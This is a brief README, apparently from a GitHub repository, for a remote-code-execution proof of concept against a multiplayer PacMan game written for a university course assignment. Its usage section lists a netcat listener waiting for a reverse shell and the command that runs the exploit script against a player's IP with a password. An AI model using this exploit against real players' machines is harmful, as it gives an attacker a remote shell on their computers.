 # rcepm

RCE exploit PoC for [multi-player PacMan](https://github.com/mhandley/ENGF2-2022/tree/master/assignments/assignment5).


## Usage

```sh
$ nc -lv 6000
```

```sh
$ python3 rce.py [your ip] [player ip] [password]'
```
